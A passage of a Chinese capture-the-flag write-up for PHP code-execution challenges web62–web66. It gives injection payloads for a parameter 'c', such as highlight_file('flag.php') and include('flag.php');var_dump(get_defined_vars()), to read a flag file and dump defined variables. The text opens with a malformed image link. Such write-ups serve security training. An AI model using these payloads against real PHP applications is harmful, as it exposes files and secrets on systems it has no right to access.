 上题方法即可



#### web62

payload:

```
c=highlight_file("flag.php");
```



#### web63

上一题方法也行，这里用另一种方法

payload:

```
c=include("flag.php");var_dump(get_defined_vars());
后面的函数作用是拿到所有注册变量
```



#### web64

前面方法即可



#### web65

前面方法即可



#### web66

用之前的办法读到`flag.php`后发现里面的是假flag

![image-20250212175014863](assets/image-20250212175014863.png)
